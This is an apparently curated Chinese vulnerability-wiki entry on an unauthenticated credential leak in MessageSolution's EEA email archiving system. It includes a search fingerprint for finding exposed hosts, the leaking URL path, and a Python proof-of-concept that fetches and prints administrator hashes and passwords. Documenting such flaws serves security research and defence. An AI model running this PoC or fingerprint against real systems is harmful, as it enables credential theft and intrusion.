



# MessageSolution EEA 10543凭据泄露

## 条目说明

- 对象与具体问题：MessageSolution EEA；10543凭据泄露
- 版本、配置及部署条件：版本仅产品名
- 认证与权限前提：匿名请求
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- administrator弱匹配，未命中不能判不存在；响应截图未视检
- 保留hash与web密码层级、补原厂受影响和修复版本

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

MessageSolution企业邮件归档管理系统 EEA是北京易讯思达科技开发有限公司开发的一款邮件归档系统。该系统存在通用WEB信息泄漏，泄露Windows服务器administrator hash与web账号密码

### 漏洞影响

```
MessageSolution 企业邮件归档管理系统EEA
```

### 网络测绘

```
title="MessageSolution Enterprise Email Archiving (EEA)"
```

### 漏洞复现

登录页面如下





访问如下Url


```plain
http://xxx.xxx.xxx.xxx/authenticationserverservlet/
```





使用获得到的密码可以登录系统





### 漏洞POC


```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: MessageSolution 企业邮件归档管理系统EEA                         \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')


def POC_1(target_url):
    vuln_url = target_url + "/authenticationserverservlet/"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 200 and "administrator" in response.text:
            print("\033[32m[o] 目标 {} 存在信息泄露 响应为:{}\033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))


if __name__ == "__main__":
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```


##


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
